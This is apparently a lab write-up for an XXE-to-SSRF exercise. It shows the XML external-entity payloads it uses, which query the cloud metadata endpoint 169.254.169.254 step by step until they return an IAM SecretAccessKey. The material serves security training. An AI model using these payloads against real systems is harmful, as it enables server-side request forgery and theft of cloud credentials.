






# Exploiting XXE to perform SSRF attacks

## Information

- Lab: XXE
- Level: APPRENTICE
- Description:

    

## Solution

Go to the website, pick any product, and click `Check stock` to check the remaining quantity.

Capture the request with Burp



We see that the product information is stored in XML format



To solve this lab, I need to exploit the XXE vulnerability to get the server's IAM secret access key

I'll declare the entity `xxe` pointing to `http://169.254.169.254/` and call it inside `productId`

Here's my payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck>
    <productId>
        &xxe;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

I send the payload and get back a response containing another endpoint, `latest`



I continue adding the new endpoint to the payload, giving me:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]>
```
I send it and get back the `meta-data` endpoint



I keep doing this until there are no more new endpoints

Final payload

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```

I send it and get the `SecretAccessKey`



The lab is solved